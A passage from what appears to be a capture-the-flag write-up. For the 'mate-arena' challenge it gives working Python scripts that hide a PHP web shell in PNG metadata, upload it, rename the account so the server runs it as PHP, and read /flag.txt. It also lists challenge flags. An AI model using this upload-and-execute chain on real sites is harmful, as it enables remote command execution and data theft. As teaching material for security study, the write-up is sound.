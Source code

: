 You can then send some testnet BTC by using [this faucet](https://coinfaucet.eu/en/btc-testnet/).

**Flag:** CTF{7ca2c1b30f013a05f50be914e5dd6edad85b153d5a623b0aa14e8c25c1219f1d}

## mate-arena {#mate-arena}
{% highlight bash %}
Site #1 for competitive math problems.

Format flag : CTF{sha256}
{% endhighlight %}

The first thing to notice is that your profile photo is stored as "[username].png". If your username contains ".php", the webserver will execute it as PHP code due to a misconfiguration. Solve script:

{% highlight python %}
import requests

base_url = "http://34.107.86.157:31050/"

sess = requests.Session()

# Login
r = sess.post(base_url + "sign-up.php", data={"username": "yakuhito1234", "password": "testtest"})

# Upload photo
# create-photo.py
r = sess.post(base_url + "upload-photo.php", files={"file": open("payload.png", "rb")}, data={"submit": "submit"})

# Change username
r = sess.post(base_url + "profile.php", data={"username": "yakuhito1234.php"})

# Get flag
r = sess.get(base_url + "images/yakuhito1234.php.png?cmd=cat+/flag.txt")
print("CTF{" + r.text.split("CTF{")[1].split("}")[0] + "}")
{% endhighlight %}

{% highlight python %}
import os

shell = b"<?php echo shell_exec($_GET[\"cmd\"]); ?>"
os.system("exiftool -Software='" + shell.decode() + "' ecsc.png")

a = open("ecsc.png", "rb").read()
open("payload.png", "wb").write(a.split(shell)[0] + shell)
{% endhighlight %}

**Flag:** CTF{ee594e0aacfab38cf1d8677bcb013fb7dbbcdacd37f856c0dbf246967db1d524}
